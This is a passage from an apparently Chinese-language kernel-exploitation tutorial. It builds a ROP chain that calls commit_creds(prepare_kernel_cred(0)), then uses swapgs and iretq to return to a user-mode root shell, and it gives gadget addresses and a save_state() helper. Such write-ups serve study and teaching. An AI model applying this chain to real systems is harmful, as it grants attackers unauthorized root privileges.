 因为调用 `commit_creds()` 函数用的是 `call` 指令，执行的操作是先将下一条指令的地址压栈之后再跳转到目标地址执行，
所以需要跳过函数开头的压栈操作从而使函数返回时会将 `call` 指令压栈的值弹到 `%rbp` 寄存器中，然后会继续返回到
我们的 rop 链执行。

`commit_creds()` 函数的压栈操作：

```asm
gef➤  x/10i 0xffffffff8108fa60
   0xffffffff8108fa60:	data16 data16 data16 xchg ax,ax
   0xffffffff8108fa65:	push   rbp
   0xffffffff8108fa66:	mov    rbp,rsp
   0xffffffff8108fa69:	push   r13
   0xffffffff8108fa6b:	mov    r13,QWORD PTR gs:0xc7c0
   0xffffffff8108fa74:	push   r12
   0xffffffff8108fa76:	mov    r12,rdi
   0xffffffff8108fa79:	push   rbx
   0xffffffff8108fa7a:	sub    rsp,0x8
   0xffffffff8108fa7e:	mov    rbx,QWORD PTR [r13+0x490]

```

完成了凭证的申请之后，我们需要返回到用户态执行一个 `shell`。通常程序执行了一个 `syscall` 指令从用户态切换到内
核态时，需要先将状态保存起来，以便后续返回到用户态继续运行，一般用 `iret` (inter-privilege return) 指令从内核
态返回到用户态执行。`iret` (或者 `iretq` 64bit) 指令返回时栈空间存放的值布局如下：

![]({{site.baseurl}}/images/2018-04-27-2.png)

继续构造 rop 链包含用户态执行地址 (rip)，mmap 映射一段内存当做栈空间 (rsp)，以及代码段选择器和栈段选择器 (cs、
ss) 和 eflags 寄存器。cs，ss 和 eflags 寄存器的值可以用 `save_state()` 函数保存下来：

```c
unsigned long user_cs, user_ss, user_rflags;

static void save_state() {
	asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"pushfq\n"
	"popq %2\n"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}
```

最后要注意的是，在 64 位系统中执行 `iretq` 指令前需要执行一下 `swapgs` 指令，该指令将 gs 寄存器的值与 MSR 地址
中的值交换。在内核态常规操作（如系统调用）的入口处，执行 `swapgs` 指令获得指向内核数据结构的指针，那么对应的，
从内核态退出，返回到用户态时也需执行一下 `swapgs`。

完整的 rop 链如下：

```c
fake_stack = (unsigned long *) stack_addr;
*fake_stack++ = 0xffffffff8138353fUL;	/* pop rdi; ret */

fake_stack = (unsigned long *) (stack_addr+0x8+0x12);
*fake_stack++ = 0x0UL;                  /* NULL */
*fake_stack++ = 0xffffffff8108fce0UL;   /* prepare_kernel_cred() */
*fake_stack++ = 0xffffffff81057cb2UL;   /* pop rdx; ret */
*fake_stack++ = 0xffffffff8108fa66UL;   /* commit_creds() + 2 instructions */
*fake_stack++ = 0xffffffff81035c11UL;   /* mov rdi, rax; call rdx */
*fake_stack++ = 0xffffffff81050564UL;   /* swapgs; pop rbp; ret */
*fake_stack++ = 0x0UL;                  /* NULL */
*fake_stack++ = 0xffffffff81050de6UL;   /* iretq */
*fake_stack++ = (unsigned long) shell;  /* spawn a shell */
*fake_stack++ = user_cs;                /* saved cs */
*fake_stack++ = user_rflags;            /* saved rflags */
*fake_stack++ = (unsigned long) (temp_stack+0xf00); /* mmaped stack region in user space */
*fake_stack++ = user_ss;                /* saved ss */

```